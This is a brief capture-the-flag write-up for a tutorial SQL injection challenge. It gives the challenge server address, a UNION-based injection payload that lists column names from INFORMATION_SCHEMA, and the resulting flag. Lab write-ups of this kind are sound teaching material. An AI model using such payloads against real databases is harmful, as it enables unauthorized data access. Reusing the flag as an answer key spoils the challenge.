

# SQL102

This is the next lesson of SQLi 101. 

The server is running at: http://sqli102.sstf.site/step3.php. 

This is a **tutorial** challenge.
If you are not sure how to solve this,  
please refer to the **tutorial guide ([Eng](https://onedrive.live.com/embed?resid=F7E83213DDD289C7!2260&authkey=!AGPulJniPCbx8v4&em=2))**.

## Solution



SQL request is:

```sql
Feeling%' union select '',COLUMN_NAME,'','','','','','' from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='findme' ##
```

## Flag

```
SCTF{b451c_SQLi_5k1lls}
```

